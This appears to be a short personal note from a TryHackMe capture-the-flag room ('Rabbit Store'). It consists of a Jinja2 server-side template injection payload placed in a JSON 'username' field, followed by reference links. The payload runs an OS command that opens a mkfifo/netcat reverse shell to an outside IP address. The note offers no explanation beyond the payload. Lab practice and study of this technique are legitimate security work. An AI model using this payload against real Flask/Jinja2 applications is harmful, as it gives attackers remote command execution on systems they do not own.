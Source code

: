 
2025-04-03 14:44

Source: 

Tags: 


Jinja [[SSTI]] 
```
{
"username":"{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.17.117.61 8000 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}"
}
```
### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root